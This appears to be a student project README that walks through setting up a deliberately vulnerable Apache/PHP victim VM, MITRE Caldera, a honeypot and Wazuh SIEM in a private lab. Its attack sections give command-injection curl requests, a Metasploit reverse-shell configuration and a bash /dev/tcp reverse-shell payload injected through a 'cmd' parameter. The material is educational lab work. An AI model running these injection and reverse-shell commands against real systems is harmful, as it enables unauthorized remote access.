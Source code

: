 # Information Security Project Implementation
## Offensive Security, Cyber Deception, and SIEM

This project implements a comprehensive security testing environment including service exploitation, honeypot deployment, and SIEM integration.

## Table of Contents
- [Phase 1: Setup and Service Compromise](#phase-1-setup-and-service-compromise)
- [Phase 2: Honeypot Setup](#phase-2-honeypot-setup)
- [Phase 3: SIEM Integration](#phase-3-siem-integration)

## Phase 1: Setup and Service Compromise

### Victim Environment Setup

#### Apache Installation
```bash
# Update system
sudo apt update

# Install Apache
sudo apt install --fix-missing apache2

# Start and verify Apache service
sudo service apache2 start
sudo service apache2 status
```

#### Custom Webpage Setup
```bash
# Navigate to web root
cd /var/www/html

# Remove default files
sudo rm -rf *

# Create new index file
sudo nano index.html
```

#### PHP Installation
```bash
# Install PHP and Apache PHP module
sudo apt update
sudo apt install php libapache2-mod-php

# Enable PHP module and restart Apache
sudo a2enmod php8.2
sudo systemctl restart apache2

# Create test PHP files
sudo nano /var/www/html/test.php
sudo nano /var/www/html/phpinfo.php
sudo nano /var/www/html/vulnerable.php
```

### Attacker Environment Setup (Caldera)

#### Prerequisites Installation
```bash
# Install Git and Node.js
sudo apt install git -y
curl -fsSL https://deb.nodesource.com/setup_18.x | sudo -E bash -
sudo apt install -y nodejs

# Install Go
wget https://go.dev/dl/go1.19.13.linux-amd64.tar.gz
sudo tar -C /usr/local -xzf go1.19.13.linux-amd64.tar.gz
echo "export PATH=$PATH:/usr/local/go/bin" >> ~/.profile
source ~/.profile

# Install Python requirements
sudo apt install python3 python3-pip -y
```

#### Caldera Setup
```bash
# Clone repository
git clone https://github.com/mitre/caldera.git --recursive

# Setup virtual environment
cd caldera
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt

# Start Caldera
python3 server.py --insecure --build
```

### Attack Commands

#### Basic Command Injection Testing
```bash
# List directory contents
curl "http://10.0.2.15/vulnerable.php?cmd=ls"

# Get system information
curl "http://10.0.2.15/vulnerable.php?cmd=uname%20-a"

# Detailed directory listing
curl "http://10.0.2.15/vulnerable.php?cmd=ls%20-la%20/var/www/html"
```

#### Metasploit Reverse Shell
```bash
# Launch Metasploit console
msfconsole

# Configure and launch exploit
use exploit/multi/script/web_delivery
set target 1
set payload linux/x64/shell_reverse_tcp
set lhost 10.0.2.4
set lport 4444
exploit
```

## Phase 2: Honeypot Setup

### Testing Commands
```bash
# Test directory listing
curl "http://10.0.2.15:8000/vulnerable.php?cmd=ls"

# Test reverse shell
curl "http://127.0.0.1:8000/vulnerable.php?cmd=bash -c 'bash -i > /dev/tcp/10.0.2.15/4444 0>&1'"
```

## Phase 3: SIEM Integration

### Wazuh Manager Installation
```bash
# Add Wazuh repository
curl -s https://packages.wazuh.com/key/GPG-KEY-WAZUH | sudo apt-key add -
sudo sh -c 'echo "deb https://packages.wazuh.com/4.x/apt/ stable main" > /etc/apt/sources.list.d/wazuh.list'

# Install manager
sudo apt update
sudo apt install wazuh-manager

# Start and enable service
sudo systemctl start wazuh-manager
sudo systemctl enable wazuh-manager
```

### Wazuh Agent Installation
```bash
# Add Wazuh GPG key
curl -s https://packages.wazuh.com/key/GPG-KEY-WAZUH | sudo gpg --dearmor -o /usr/share/keyrings/wazuh.gpg

# Add repository
echo "deb [signed-by=/usr/share/keyrings/wazuh.gpg] https://packages.wazuh.com/4.x/apt/ stable main" | sudo tee /etc/apt/sources.list.d/wazuh.list

# Install agent
sudo apt update
sudo apt install wazuh-agent -y

# Verify services
sudo systemctl status wazuh-manager
sudo systemctl status wazuh-agent
```

## Network Configuration

### Environment Details
- Victim Machine (Apache Server):
  - OS: Kali Linux (VirtualBox)
  - IP: 10.0.2.15
- Attacker Machine:
  - OS: Kali Linux (VirtualBox)
  - IP: 10.0.2.4

## Note
This project is for educational purposes only. The vulnerable environment should only be deployed in a controlled, isolated lab setting.
